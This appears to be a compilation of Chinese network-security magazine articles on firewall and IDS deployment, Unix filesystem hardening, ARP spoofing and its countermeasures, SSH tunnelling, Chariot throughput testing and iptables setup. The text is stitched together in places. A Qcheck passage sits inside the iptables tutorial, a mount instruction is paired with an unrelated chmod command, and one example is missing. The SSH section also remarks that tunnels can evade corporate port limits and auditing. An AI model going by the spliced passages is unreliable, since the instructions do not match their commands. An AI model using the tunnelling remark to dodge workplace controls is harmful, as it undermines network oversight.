| 对网络层以下各协议的支持 | 由于防火墙对物理链路的隔断，因此必须支持所有网络层以下的协议才能维持原有网络的正常运作，如 RIP、OSPF、IGRP、CGMP、IGMP、PIM、DVMRP 等 | 没有跨接任何物理链路，因此无此要求 |

#### 三、防火墙与 IDS 在企业网络中的经典部署

##### 1. 防火墙经典部署

防火墙是网络安全的关口设备，只有在关键网络流量通过防火墙的时候，防火墙才能对此实行检查、防护等功能。因此，在网络拓扑上，防火墙应当处在网络的出口处和不同安全等级区域的结合点处。这些位置通常位于：

- 企业内部网 Internet 出口链路处；
- 主干交换机至服务器区域工作组交换机的骨干链路上；
- 办公内部网与高安全等级的企业涉密网的连接点；
- 远程拨号服务器与企业骨干交换机或路由器之间。

一个经典的防火墙部署方式如图 3 所示。


##### 2. 经典入侵检测部署

不同于防火墙，IDS 入侵检测系统是一个监听设备，没有跨接在任何链路上，无须网络流量流经它便可以工作。因此，对 IDS 的部署，惟一的要求是：IDS 应当挂接在所有所关注流量都必须流经的链路上。在这里，“所关注流量”指的是来自高危网络区域的访问流量和需要进行统计、监视的网络报文。在如今的网络拓扑中，已经很难找到以前的 HUB 式共享介质冲突域的网络，绝大部分的网络区域都已经全面升级到交换式的网络结构。因此，IDS 在交换式网络中的位置一般选择在：

- 尽可能靠近攻击源；
- 尽可能靠近受保护资源。

这些位置通常是：

- 服务器区域的交换机上；
- Internet 接入路由器之后的第一台交换机上；
- 重点保护网段的局域网交换机上。

一个经典的入侵检测系统的部署方式如图 4 所示。


#### 四、总结

经过以上分析，我们又想起了对防火墙和入侵检测系统的一个经典分析：防火墙相当于一个把门的门卫，对于所有进出大门的人员进行审核：只有符合安全要求的人，就是那些持有入门许可证的人才可以进、出大门；但是对于那些本身就在大门内部的，以及那些虽备有入门证、以合法身份进入了大门的人，是否做好事就无法监控，这时候就需要依靠入侵检测系统来进行审计和控制。

通过以上的分析，希望可以使大家对防火墙和入侵检测系统的作用有一个更加清晰的认识，在选择安全产品的时候具备一双“慧眼”。

### 保护 Unix 文件系统的安全经验小谈

文／多多

在使用 Unix 的过程中常常用到文件操作，所以保护文件系统的安全性是非常重要的。在安装系统之前就应该进行设置了：你必须计划好分区的大小情况、用户使用情况等等。然后在安装的时候进行设置，这样做一是能通过不同的参数来挂接到不同的文件系统，另外一个原因是可以建立另外的文件系统。如果你是从 Linux 转向使用 FreeBSD 的，你应该要注意到 Linux 默认需要建立一个 root 分区“/”，而 FreeBSD 默认为“/”、“/usr”和“/var”。

我们可以建立一个分区，让一般用户进行写操作，通过“nosuid”参数进行挂接。该参数不允许设置用户 ID 和组 ID。

因此你可以有一个分区并建立目录给用户：/home 或 /usr/home。例如：

你应该确定这里所有目录的用户在用参数 nosuid 以后，可以进行写操作，但不可以通过命令 chmod 进行修改属性。在默认情况下，FreeBSD 只有一个你可以连接的目录：/var/spool/uucppublic。

你可以用 nosuid 挂接你的 /var 文件系统：

```bash
# chmod o-w /var/spool/uucppublic
```

如果你想找到所有可写的目录，请用以下命令：

```bash
# find / -perm -0777 -type d -ls
```

查找以 suid 或 guid 方式安装到系统的文件：

```bash
# find / -perm -2000 -ls
# find / -perm -4000 -ls
```

另外一件你需要做的工作是用“chmod 000”来屏蔽一些不必要的或暂时不用的服务等等。例如你不使用打印，你可以使用命令“chmod 000 lpr”。

在建立单独的分区和文件目录以后，用户只要用 mount 命令（使用 nosuid 参数），即可使用并相应地限制权限，提高了系统的安全性。

```text
% cat ./etc/fstab
# Device      Mountpoint   FStype   Options      Dump   Pass#
/dev/sd0s1b   none         swap     sw           0      0
/dev/sd0s1a   /            ufs      rw           1      1
/dev/sd0s1g   /usr         ufs      rw           2      2
/dev/sd0s1h   /usr/home    ufs      rw,nosuid    2      2
/dev/sd0s1f   /var         ufs      rw,nosuid    2      2
/dev/sd0s1i   /tmp         ufs      rw,nosuid    2      2
/dev/sd0s1e   /var/tmp     ufs      rw,nosuid    2      2
proc          /proc        procfs   rw           0      0
```

### 网络安全中的 ARP 协议和欺骗技术及其对策

文／Phoenix

在以太网（Ethernet）中，一个网络设备要和另一个网络设备进行直接通信，除了知道目标设备的网络层逻辑地址（如 IP 地址）外，还要知道目标设备的第二层物理地址（MAC 地址）。ARP 协议的基本功能就是通过目标设备的 IP 地址，查询目标设备的 MAC 地址，以保证通信的顺利进行。

ARP 协议的概念和工作原理对学习网络安全知识的初学者来说，是首先遇到的几个重要知识点，其中 ARP 欺骗技术及其对策更是学习网络安全的重点与难点，往往难以一下子掌握这些抽象复杂的机理。因此，很有必要详细介绍一下网络安全中的 ARP 协议和欺骗技术相应的对策。

#### 一、TCP/IP 协议之 ARP 协议的定义

ARP 协议即地址解析协议（Address Resolution Protocol）。ARP 协议是将 IP 地址与网络物理地址一一对应的协议，负责 IP 地址和网卡实体地址（MAC）之间的转换，也就是将网络层（IP 层，也就是相当于 ISO/OSI 的第三层）地址解析为数据链路层（MAC 层，也就是相当于 ISO/OSI 的第二层）的 MAC 地址。如果您对网络 7 层协议有比较清晰的理解，应该知道各个层级之间都使用各自的协议。一张 ARP 表，用来支持在 MAC 地址和 IP 地址之间的一一对应关系，它提供两者的相互转换。

#### 二、ARP 协议的工作原理

在以太网（Ethernet）中，一个网络设备要和另一个网络设备进行直接通信，除了知道目标设备的网络层逻辑地址（如 IP 地址）外，还要知道目标设备的第二层物理地址（MAC 地址）。ARP 协议的基本功能就是通过目标设备的 IP 地址，查询目标设备的 MAC 地址，以保证通信的顺利进行。

当一个网络设备需要和另一个网络设备通信时，它首先把目标设备的 IP 地址与自己的子网掩码进行“与”操作，以判断目标设备与自己是否位于同一网段内。如果目标设备在同一网段内，并且源设备没有获得与目标 IP 地址相对应的 MAC 地址信息，则源设备以第二层广播的形式（目标 MAC 地址为全 1）发送 ARP 请求报文。在 ARP 请求报文中包含了源设备与目标设备的 IP 地址。同一网段中的所有其他设备都可以收到并分析这个 ARP 请求报文，如果某设备发现报文中的目标 IP 地址与自己的 IP 地址相同，则它向源设备发回 ARP 响应报文，通过该报文使源设备获得目标设备的 MAC 地址信息。

如果目标设备与源设备不在同一网段，则源设备首先把 IP 分组发向自己的缺省网关（Default Gateway），由缺省网关对该分组进行转发。如果源设备没有关于缺省网关的 MAC 信息，则它同样通过 ARP 协议获取缺省网关的 MAC 地址信息。为了减少广播量，网络设备通过 ARP 表在缓存中保存 IP 与 MAC 地址的映射信息。在一次 ARP 请求与响应过程中，通信双方都把对方的 MAC 地址与 IP 地址的对应关系保存在各自的 ARP 表中，以在后续的通信中使用。ARP 表使用老化机制，删除在一段时间内没有使用过的 IP 与 MAC 地址的映射关系。

另外，当传送过来的包要传向一个 LAN 的主机时，当它到达网关时，网关要从 ARP 程序找到物理主机或与 IP 地址相对应的 MAC 地址。ARP 程序在缓存中寻找，如果找到地址，就提供此地址，以便让此包转换成相应的长度和格式，以传送到此主机；如果未找到，ARP 程序就在网上广播一个特殊格式的消息，看哪个机器知道与这个 IP 地址相关的 MAC 地址。如果一台机器发现那是自己的 IP 地址，它就发送回应，这样就指出了相应的地址，ARP 程序就更新自己的缓存，然后发送此包到回应的 MAC 地址。因为不同协议的相应处理方法不同，所以有不同网络的地址解析请求。也有反向地址解析协议（RARP）供不知道 IP 地址的主机从 ARP 缓存中获得 IP 地址。

我们还是来通过实验更加深入直观地了解 ARP 协议的工作原理吧。我们假设有两台主机：

- A 机的 IP 地址是 192.168.0.1，MAC 地址是 52-54-ab-27-82-83；
- B 机的 IP 地址是 192.168.0.2，MAC 地址是 52-54-ab-27-82-84。

当主机 A 想与主机 B 进行通信时，A 机只知道 B 机的 IP 地址是 192.168.0.2，当数据包封装到 MAC 层时，它如何知道 B 的 MAC 地址呢？一般的 OS 中是这样做的：在 OS 的内核中保存一份 MAC 地址表，就是我们前面介绍到的。用 `arp -a` 就可以看见这个表的内容了，例如：

```text
C:\>arp -a
Interface: 192.168.0.X on Interface 0x1000002
Internet Address   Physical Address   Type
192.168.0.1        52-54-ab-27-82-83 dynamic
```

其中，表内有 IP 和 MAC 地址的对应关系，当要进行通信时，系统先查看这个表中是否有相关的表项，如果有就直接使用；如果没有，系统就会发出一个 ARP 请求包。这个包的目的地址为 `ff-ff-ff-ff-ff-ff` 的广播地址，它的作用就是询问局域网内 IP 地址为 192.168.0.2 的主机的 MAC 地址，就像是 A 在局域网中发信息找一个 IP 地址为 192.168.0.2 的主机的 MAC 地址；同样，A 机把自己的 MAC 地址告诉出去是 52-54-ab-27-82-83。随后，所有主机都会接收到这个包，但只有 IP 为 192.168.0.2 的 B 才会响应一个 ARP 应答包给主机 A，B 机会回信息给 A 机说它的 MAC 地址是 52-54-ab-27-82-84。好，这下主机 A 就知道 B 的 MAC 地址了，于是它就可以封包发送了。同时，主机 A 将 B 的 MAC 地址放入 ARP 缓冲中，隔一定时间就将其删除，确保不断更新。

注意：在这个过程中，如果主机 A 在发送 ARP 请求时，该局域网内有一台主机 C 的 IP 和 A 相同，C 就会得知有一台主机的 IP 地址同自己的 IP 地址相同，于是就弹出一个 IP 冲突的对话框。与 ARP 相对应的还有一个协议 RARP：Reverse Address Resolution Protocol，反向地址解析协议。该协议主要用于工作站模型动态获取 IP 的过程中，作用是由 MAC 地址向服务器取回 IP 地址。

#### 三、如何实现 ARP 协议的欺骗技术和相应的对策

##### 1. ARP 协议欺骗技术

当我们设定一个目标进行 ARP 欺骗时，也就是把 MAC 地址通过主机 A 发送到主机 B 上的数据包都变成发送给主机 C 了。如果 C 能够接收到 A 发送的数据包，第一步就嗅探成功了；而对于主机 A 来说，目前不可能意识到这一点。主机 C 接收到主机 A 发送给主机 B 的数据包后，可不一定转交给 B。当进行 ARP 重定向，打开主机 C 的 IP 转发功能，A 发送过来的数据包就转发给 C，好比一个路由器一样。但是，这就是 ARP 协议欺骗真正的一步。假如主机 C 进行发送 ICMP 重定向的话就麻烦了，因为它可以直接进行整个包的修改转发，捕获到主机 A 发送的数据包，全部进行修改后再转发给主机 B，而主机 B 接收到的数据包完全认为是从主机 A 发送来的。这就是主机 C 进行 ARP 协议欺骗，此技术在网络安全中是很重要的。当然，还可以通过 MAC 地址进行欺骗。

##### 2. ARP 协议欺骗技术相应对策

各种网络安全的对策都是相对的，主要要看网管平时对网络安全的重视性了。下面介绍一些相应的对策：

- 1. 在系统中建立静态 ARP 表，对本身系统影响不大，对网络影响较大，破坏了动态 ARP 解析过程。静态 ARP 协议表不会过期，我们可用 `arp -d` 命令清除 ARP 表，即手动删除。但是，有的系统的静态 ARP 表项可以被动态刷新，如 Solaris 系统。那样的话，依靠静态 ARP 表项并不能对抗 ARP 欺骗攻击，相反却纵容了 ARP 欺骗攻击，因为虚假的静态 ARP 表项不会自动超时消失。当然，可以考虑利用 cron 机制补救（增加一个 crontab）。为了对抗 ARP 欺骗攻击，对于 Solaris 系统来说，应该结合“禁止相应网络接口做 ARP 解析”和“使用静态 ARP 表”的设置。
- 2. 在相应系统中禁止某个网络接口做 ARP 解析（对抗 ARP 欺骗攻击），可以做静态 ARP 协议设置（因为对方不会响应 ARP 请求报文），如：`arp -s XXX.XXX.XX.X 08-00-20-a8-2e-ac`。在绝大多数操作系统，如 Unix、BSD、NT 等，都可以结合“禁止相应网络接口做 ARP 解析”和“使用静态 ARP 表”的设置来对抗 ARP 欺骗攻击。而 Linux 系统的静态 ARP 表项不会被动态刷新，所以不需要“禁止相应网络接口做 ARP 解析”即可对抗 ARP 欺骗攻击。

以上较深入和直观地介绍了 ARP 协议的基本原理与基本工作过程及 ARP 欺骗技术以及其对策，如果你有更好的 ARP 欺骗技术的对策，欢迎交流。E-mail：Phoenix@safechina.net

### 用 SSH 建立安全网络通道

SSH 是一个用来替代 Telnet、FTP 以及 R 命令的工具包，主要是想解决口令在网上明文传输的问题。为了系统安全和用户自身的权益，推广 SSH 是非常必要的。

传统的网络服务程序，如 FTP、POP 和 Telnet，在本质上都是不安全的，因为它们在网络上用明文传送口令和数据，别有用心的人非常容易就可以截获这些口令和数据。而且，这些服务程序的安全验证方式也是有其弱点的，就是很容易受到“中间人”（man-in-the-middle）这种方式的攻击。所谓“中间人”的攻击方式，就是“中间人”冒充真正的服务器接收你传给服务器的数据，然后再冒充你把数据传给真正的服务器。服务器和你之间的数据传送被“中间人”一转手做了手脚之后，就会出现很严重的问题。

SSH 的英文全称是 Secure Shell。通过使用 SSH，你可以把所有传输的数据进行加密，这样“中间人”这种攻击方式就不可能实现了，而且也能够防止 DNS 和 IP 欺骗。还有一个额外的好处就是，传输的数据是经过压缩的，可以加快传输的速度。SSH 有很多功能，它既可以代替 Telnet，又可以为 FTP、POP 甚至 PPP 提供一个安全的“通道”。

### SSH 安全验证的工作原理

从客户端来看，SSH 提供两种级别的安全验证。

第一种级别（基于口令的安全验证）只要你知道自己的账号和口令，就可以登录到远程主机。所有传输的数据都会被加密，但是不能保证你正在连接的服务器就是你想连接的服务器，可能会有别的服务器在冒充真正的服务器，也就是受到“中间人”这种方式的攻击。

第二种级别（基于密钥的安全验证）需要依靠密钥，也就是你必须为自己创建一对密钥，并把公用密钥放在需要访问的服务器上。如果你要连接到 SSH 服务器上，客户端软件就会向服务器发出请求，请求用你的密钥进行安全验证。服务器收到请求之后，先到你在该服务器的 home 目录下寻找你的公用密钥，然后把它和你发送过来的公用密钥进行比较。如果两个密钥一致，服务器就用公用密钥加密“质询”（challenge）并把它发送给客户端软件。客户端软件收到“质询”之后，就可以用你的私人密钥解密，再把它发送给服务器。

用这种方式，你必须知道自己密钥的口令。但是，与第一种级别相比，第二种级别不需要在网络上传送口令。第二种级别不仅加密所有传送的数据，而且“中间人”这种攻击方式也是不可能的（因为他没有你的私人密钥），但是整个登录的过程可能需要 10 秒。

我之前写过文章介绍如何在 IIS 下利用 SSL 来加密 Web 的传输通道，由于常见的 HTTP、FTP、POP3、SMTP、NNTP、Telnet 等很多协议都是利用明文在网络中来传递信息的，内部网络的攻击者可以很容易监视到你的整个会话过程，包括用户名、密码、邮件内容等等，现在很多内部网络的审计系统和 IDS 也都可以实现对应用层的信息还原，简直是没有安全可言了。现在比较流行使用的工具是 SSH2，SSH2 不仅支持对于用户名和密码加密的传输，而且可以实现公钥认证机制。客户端与 SSH2 服务器连接时，会自动收到服务器端的公钥，在验证时使用这把公钥对用户名和密码加密，服务器用自己的私钥解密并进行比较，来证明用户是否输入了正确的密码；如果采用公钥验证，客户端自己要生成一对密钥并把公钥传到服务器上，里面指定客户端的公钥名字，这种方法比前面的还要安全。

好了，由于在 Windows 系统下 SSH 不是默认就有的安全配置，所以我们需要安装一些第三方的软件来实现我们需要的功能。

其实 NT 下的 SSH 服务软件也有不少产品，我给大家介绍一个我认为最好的东西出来吧，就是 VShell 这款软件（图 1）。安装其实非常简单，一路 NEXT 下来就 OK 了，没有需要特别注意的地方。第一次启动的时候，程序会要求我们生成一个随机产生的密钥。

步骤其实也很简单，我们只要按照向导的要求一步一步地来就可以了。SSH1 使用的是 RSA 的加密方式，到了 SSH2 以后就是 DSA 加密方式了。

密钥的长度当然就选 1024 位（图 2），是目前非常安全的长度。

随机密钥的生成是根据我们的鼠标在屏幕上随便乱晃的时候产生的随机位置而生成的，所以你需要不停地晃动你的鼠标，一直到密钥全部生成为止，生成的密钥保存在系统本地硬盘。

SSH Server 的配置很简单，几乎不再需要我们额外去做什么设定了，程序自动在 NT 系统下注册为系统的服务进程来存在。有几个注意的地方值得说明：Compression 是压缩选项，很多人说利用 SSH 进行 SFTP 传输的时候速度有时不会因为 SSH 的加密传输而降低，反而会提高，其实就是利用 SSH 通道的数据压缩传递的功能。这个选项默认是打开的（图 3）。

VShell 里还有个地方可以设置用户的访问权限，VShell 是采用 NT 下的 User 组为自己的用户密码，和 NT 下用户密码是一样的，我们在这里可以设置哪些用户和用户组有访问、执行端口通道等等功能的权限（图 4）。

SFTP 是 SSH2 协议中一个可以替代传统 FTP 协议的应用，它是利用 22 端口的 SSH 加密隧道来传递文件的（图 5）。

图 6 是根据 IP 地址来做访问设置策略的地方。服务器设定好了以后，我们就来介绍一下 SSH 的客户端软件。在 NT 下也有很多出色的 SSH 客户端软件可以使用，就功能来说，我推荐的是 F-Secure 的 SSH 客户端，安装很简单，不用过多介绍，直接看看它的使用界面好了。

SSH Client 启动以后，我们直接选择 Quick Connect 来启动连接对话框，填入我们需要连接的 IP 地址、用户名以及 SSH 使用的端口，默认 22，如图 7，但是根据远程 SSH 服务器的设置可以改变，我建议应该更改到一个不为人知的秘密端口，这样比较安全。

第一次连接过去以后，有点像 SSL 的连接，也需要我们同意接受远程主机的 KEY 文件保存到本地。

认证完成后，我们需要提供远程主机的 Administrator 用户的密码来确定我们的身份（图 8）。

成功完成后，看看出来的界面是不是和以前的 Telnet 的界面是一模一样呢（图 9），本来 SSH 就是用来代替 Telnet 出来的协议嘛，所以当然是一样了。

F-Secure 支持 3 种模式的连接，第二种就是所谓的 SFTP 了。用 22 端口的 SSH 连接隧道来进行文件的传输，整个过程中，远程只有一个端口工作，即 22，与传统的 FTP 的主动、被动需要两个端口来工作是不一样的模式，所以非常安全，也容易控制。可惜的是 F-Secure 的 SFTP 模式目前对于中文文件名支持得都不是太好，后来我采用和 VShell 同一家公司的 Vandyke 产品 SecureFX，这款 SFTP 软件对中文支持相当好，让我很是满意（图 10）。

最后一种也是 SSH 最最重要的一个功能，就是 Tunneller 工作模式了（图 11），这是使 SSH 应用更为广泛的一种很有用的工作模式。

### SSH 的一些特殊用途

SSH tunnel：SSH 隧道，用作加密数据管道传输各种信息。

#### 1. 简介

大多数人知道 SSH 是用来替代 R 命令集，是用于加密的远程登录、文件传输，甚至加密的 FTP（SSH2 内置），因此 SSH 成为使用极广的服务之一。不仅如此，SSH 还有另一项非常有用的功能，就是它的端口转发隧道功能。利用此功能，让一些不安全的服务，如 POP3、SMTP、FTP、LDAP 等等通过 SSH 的加密隧道传输，然后，即使这些服务本身是不安全的，密码和内容是明文传送的，现在其他中间媒介也没法监听了。

#### 2. 图示

SSH 的加密隧道保护的只是中间传输的安全性，使得任何通常的嗅探工具软件无法获取发送内容。如图 12 所示。

假设客户机和服务器都运行 SSH，且以 POP3 为例。

```text
C（POP3 server: S）S

────    ─────
||||
||────────POP3────────>||
└──┘  └──┘

图12  正常的POP3
```

```text
C（POP3 server: C）S（POP3 client: S）

────    ─────
||||
||--------SSH连接-------->||
└──┘  └──┘

图13  SSH隧道后的POP3
```

图 12：正常的 POP3 连接是客户 C 向服务器 S 进行连接，C 的设置是 POP3 服务器为 S。

图 13：用 SSH 隧道的话，客户 C 设置 POP3 服务器为自己（localhost），然后设置 SSH 加密隧道；如果设置在同样的端口 110 听取 C 的请求，则对 C 来说，POP3 服务器是自己本身，端口也是 110。对 S 来说，看到的 POP3 请求地址不是来自 C，而是自己本身，因为有了 SSH 隧道。

这里可以看到我简单建立了两个通道 25 和 110，显然是为我的邮件安全传输来做的通道。

然后，在我的邮件客户端 OE 里面把 SMTP 和 POP3 服务器的地址都改为指向自己的 IP 地址 127.0.0.1 就可以了（图 14）。

不知道大家明白了没有，这样以后，我的内部邮件服务器 192.168.69.220 上同时运行邮件服务器和 SSH 服务器，然后在客户端和 SSH 建立安全的通道连接以后，就可以把收发邮件的数据包封装在 SSH 的安全隧道中传递到远程 192.168.69.220 的服务器上，由 SSH Server 帮助我把数据包重新还原出来，完成和邮件服务器的本地交互过程。这样，网络中即使有攻击者在搭线窃听，也无法知道我到底在做什么。当然，我上面只是用邮件系统来做个说明，实际使用过程中你可以把它应用到很多协议的使用上。

SSH 的隧道功能实在是一个非常不错的扩展功能，换个角度想想，它利用一个端口来封装其他端口的数据，而且又是利用普通人无法看到的加密隧道，这些其实也可以被利用来在内部网络突破访问限制来使用。比如一个公司的内部网络只允许员工访问远程的 80 端口，并且在网关位置装了信息审查软件的话，SSH 的隧道就可以被利用来突破这种限制了。

### 结束语

说了这么多，可能很多人还是很不明白 NT 下 SSH 的作用，那就自己亲自装上一个来实地测试一下吧。最后要说的就是，SSH 由于采用加密隧道，对于速度来说还是有些影响，对于不重要的地方，不推荐采用这种额外的加密机制。

### Chariot

文/SQL

#### 测试网络吞吐量的利器

很多人经常被网络吞吐量所困惑，想做测试又不知道如何来做，其实很简单，看着 Chariot 这一网络测试战车是如何工作的。

网络测试的方法和手段因测试的目的不同而有所不同。典型的网络设备测试的方法有 2 种：第一种是将设备放在一个仿真的网络环境中，通过分析该产品在网络中的行为对其进行测试；第二种方法是使用专用的网络测试设备对产品进行测试，如专用的性能分析仪器 SmartBits 2000、IXIA 1600 等。对于网络系统的布线测试、物理连通性的测试和故障监测也有专门的工具，这些工具是一些底层的网络测试和维护工具，如 Fluke 公司的网络听诊器、网络一点通、企业级网络测试仪等等。而网络电缆测试仪、令牌环网测试仪、以太网测试仪、光缆测试仪等等，都是在网络系统的实施部署和运行维护阶段常用的测试工具。对于网络协议的一致性测试一般有专门的测试工具来支持，比如说对 ISDN、ATM、ADSL、帧中继等的实现都有专门的测试仪。

对网络系统的测试也有相应的测试工具，最典型和最重要的就是网络协议分析仪。网络协议分析仪一般有专用的硬件设备和专门的软件。这类协议分析仪典型的功能是数据包的捕捉、协议的解码、统计分析和数据流量的产生。用协议分析仪我们可以捕捉网上的实际流量、提取流量的特征，据此对网络系统的流量进行模型化和特征化。此外，网络协议分析仪还可以主动地产生大量的数据包施加到网络上，分析网络的响应或对网络系统进行加重测试。目前典型的协议分析仪有 HP 公司的 Internet Advisor（网络专家系统）、WG 公司的 Domino 系列协议分析仪等。另外，还有一些纯软件的协议分析工具，有些甚至可以从网上免费下载。但这类协议分析软件无论在协议的解码能力、解码和数据分析的实时性以及数据流量的产生能力上，与用专门硬件实现的协议分析仪相比仍有差距。

还有一些比协议分析仪更高层次的网络性能测试工具，站在应用层的角度使用一些基准流量对网络系统的性能进行分析，代表性的软件是 Ganymede Software 公司的 Chariot 软件。Chariot 是业界著名的多功能网络业务测试软件。非常多的评测实验室都在使用 Chariot 软件进行网络设备的性能测试，比如一些千兆以太网卡横向比较测试和无线路由网产品的横向比较测试，我还看到很多对于防火墙设备的评测都采用了 Chariot。Chariot 的基本组成包括 Chariot 控制台和 Endpoint（图 1）。其中 Chariot 控制台可以运行于 Microsoft 的各种 Windows 平台。在 Chariot 控制台上可以定义各种可能的测试拓扑结构和测试业务类型。

Endpoint 可以运行在几乎目前流行的所有操作系统上。Chariot Endpoint 能够充分利用运行主机的资源，执行 Chariot 控制台发布的 Script 命令，从而完成需要的测试。

首先启动 Chariot 的控制台部分，然后分别在两台需要进行测试的计算机上运行 Endpoint 程序，选择 New，新建立一个测试的脚本（图 2）。

在工具栏上添加一个新的测试对接点（图 3）。

然后就是怎么来配置这个对接点的参数了。我们需要把两个运行 Endpoint 测试程序的计算机的 IP 地址填入，然后选择一个需要测试的脚本（图 4）。

Chariot 支持多种网络业务，内置超过 120 个业务脚本，如 FTP、HTTP、IPTV、NetMeeting、RealAudio 等，你可以自己去慢慢摸索每个脚本的作用。我选择了 Chariot 提供的 Throughput 测试脚本对被测网络的吞吐量进行了测试（图 5）。该测试脚本通过发送、接收并确认一个大文件，得出吞吐量的测试结果。

选择图 4 中 Edit This Script 按钮，由于默认脚本的参数并不适用我今天的测试环境，所以我需要对这个脚本稍微修改一下。

Chariot 的脚本写得非常简单易懂，我这里只是把默认的传输文件的大小进行了修改，默认的文件由于太小，在我这里的网络瞬间就传输完毕了，程序认为这样测试出来的数据不正确，所以我把文件的大小提高了 10 倍数值（图 6）。

Chariot 可以在同一台计算机上模拟出很多的请求，在这里我是用的双向请求，每个请求分别有 5 个模拟出来的独立线程（图 7）。

选择工具栏上的 Run 值开始我们这次的吞吐量测试。

在测试的过程中，我们可以实时地查看当前两台测试计算机之间的网络吞吐量的数值（图 8、图 9）。

测试结束的时候，我们可以很方便地看到最后的数据结果。这次测试显示两台计算机之间的网络传输的吞吐量数据在 178 Mbps，由于采用的是双向传输，所以最后数据大于 100 Mbps（图 10、图 11）。

测试的显示图表可以有多种不同的显示模型，你可以用鼠标右键来选择自己想要看的模型，当然也支持自定义的高级格式（图 12、图 13）。

测试结果的数据图表也可以选择用不同的单位级别来查看，当然程序也会默认自动为我们选择一个合适的单位级别（图 14、图 15）。

我们也可以把测试的报告保存成一个文件。图 16 就是保存成 HTML 结果的测试报告。

### 使用 Iptables

#### 一步一步架设防火墙

文／老妖

对于熟悉使用 RedHat 的朋友们来讲，一定知道它下面的防火墙 Ipchains 和 Iptables。在默认安装的情况下，这两个服务是打开的，它们就是 Linux 下的防火墙。

那么，Ipchains 和 Iptables 有什么不同呢？哪个好一些？该如何配置它们以构架符合自己要求的防火墙呢？本文作者通过亲自配置调试，为大家阐述了通过配置 Iptables 构架自己的防火墙的方法以及为什么采用 Iptables。文中对 Iptables 和 Ipchains 的区别也加以讨论，深入浅出，对于刚刚接触 RedHat 的读者是篇不错的启蒙文章，同时也为 Linux 爱好者提供一个探讨的方向。

相信大家还记得 Ipchains 吧，在 Red Hat 7.2 上常用的 Ipchains，由于默认的内核 modules 未安装，会在使用时出现“Ipchains: Protocol not available”错误，不要以为 7.2 倒退了，其实它已经用更强大的 Iptables 来打造防火墙了。Iptables 是设计用来取代 Ipchains 和 Ipfwadm 的。和它们一样，Iptables 也是用来实现数据包过滤、数据包处理、NAT 等功能的，但 Iptables 是基于 2.4 内核才有的 netfilter 框架的，功能比 Ipchains 强大许多。那为什么不继续使用 Ipchains 呢，我们来看看 Ipchains 有哪些缺点：

- 1. 基于 2.2 内核的 Ipchains 没有提供传递数据包到用户空间的框架，所以任何需要对数据包进行处理的代码都必须运行在内核空间，而内核编程却非常复杂，而且只能用 C 语言实现，并且容易出现错误并对内核稳定性造成威胁。
- 2. 透明代理实现非常复杂，必须查看每个数据包来判断是否有专门处理该地址的 socket。网络栈代码中在 11 个文件中共出现了 34 个“#ifdef”条件编译。
- 3. 创建一个不依赖于接口地址的数据包过滤规则是不可能实现的。我们必须利用本地接口地址来判断数据包是本地发出，还是发给本地的或是转发的。转发链只有输出接口的信息，因此管理员必须考虑数据包的源。
- 4. 伪装和数据包过滤都在同一个模块内实现，导致防火墙代码过于复杂。
- 5. IPchains 代码既不模块化又不易于扩展（例如对 MAC 地址的过滤）。

Qcheck 是 NetIQ 公司推出的网络应用与硬件测试软件包 Chariot suite 的一部分，是一个免费公版程序，可以在 http://www.netiq.com/qcheck/default.asp 下载。主要功能是向 TCP、UDP、IPX、SPX 网络发送数据流，从而来测试网络的吞吐率、响应时间等。下面我就择其重点介绍一下：

- 1. TCP 响应时间（TCP Response Time）

这项测试可以测得完成 TCP 通讯的最短、平均与最长时间。这个测试和“ping”很像，目的在于让你知道收到另一台机器所需的时间。这个测量一般称为“延缓”或“延迟”（latency）。

- 2. TCP 传输率（TCP Throughput）

这项测试可以测量出两个节点间使用 TCP 协议时每秒钟成功送出的数据量。通过这项测试可以得出网络的带宽。

- 3. UDP 串流传输率（UDP Streaming Throughput）

和多媒体应用一样，串流测试会在未知状况下传送数据。在 Qcheck 中，使用无连接协议的 IPX（Internetwork Packet Exchange，网络交换协议）或 UDP。Qcheck 的串流测试是评估应用程序使用串流格式时的表现，例如 IP 线上语音以及视频广播。此测试显示多媒体流通常需要多少的频宽，以方便网络硬件速度和网络所能达到真正数据传输率间的比较。另外，也可以测得封包遗失（packet loss）情况以及处理中 CPU 占用率（CPU utilization）。

下面我们以一个实例来一步一步架设 Iptables 的防火墙。

首先，我们要获取 Iptables，大家可以去 http://netfilter.samba.org 下载一个最新版本，目前为止是 Iptables-1.2.6a.tar.bz2。下载下来后解压：

```bash
tar -jxvf Iptables-1.2.6a.tar.bz2
```

因为是 bz2 压缩的，所以用 j 这个开关，老版本的 tar 可以用 I 这个开关。然后，输入以下命令来安装它（为简便起见，省略了输出）：

```bash
% make pending-patches KERNEL_DIR=<<where-your-kernel-is>>
% make KERNEL_DIR=<<where-your-kernel-is>>
# make install KERNEL_DIR=<<where-your-kernel-is>>
```

安装完以后，我们就有了一个 Iptables 的命令可以用，并且有一个比较实用的 man 帮助页面。接下来我们开始设计我们的防火墙。首先我们输入：

```bash
# iptables -P INPUT DROP
```

你现在看到的是一个几乎“完美”的防火墙。如果输入此命令，你将会得到难以置信的完美保护，它可以防止任何形式的恶意攻击，因为此命令告诉内核删除所有进入的网络包。虽然这个防火墙非常安全，但它有点傻。在继续讨论之前，让我们研究一下此命令是如何执行操作的。

netfilter 是 Linux 核心中一个通用架构，它提供了一系列的“表”（tables），每个表由若干“链”（chains）组成，而每条链中可以有一条或数条规则（rule）组成。我们可以这样来理解，netfilter 是表的容器，表是链的容器，而链又是规则的容器。

系统缺省的表为“filter”，该表中包含了 INPUT、FORWARD 和 OUTPUT 3 个链。每一条链中可以有一条或数条规则，每一条规则都是这样定义的：“如果数据包头符合这样的条件，就这样处理这个数据包。”当一个数据包到达一个链时，系统就会从第一条规则开始检查，看是否符合该规则所定义的条件；如果满足，系统将根据该条规则所定义的方法处理该数据包；如果不满足，则继续检查下一条规则。最后，如果该数据包不符合该链中任一条规则的话，系统就会根据该链预先定义的策略（policy）来处理该数据包。

“iptables -P”命令用于为包过滤规则链设置缺省策略。在本示例中，iptables -P 用于为 INPUT 链设置缺省策略，INPUT 是一个内置链，包括了应用于每个进入包的规则。通过将缺省策略设置成 DROP，告诉内核应该删除（即废弃）到达 INPUT 规则链末端的任意包。而且，由于我们还没有为 INPUT 链添加任何规则，因此所有包都会到达此链的末端，而且所有包都会被删除。

再次声明：这个命令本身根本没有用，但是，它演示了一个很好的防火墙设计策略。我们从缺省情况下删除所有包开始，然后逐步开放防火墙，这样它将会满足我们的需要。这种做法可以确保防火墙尽可能安全。

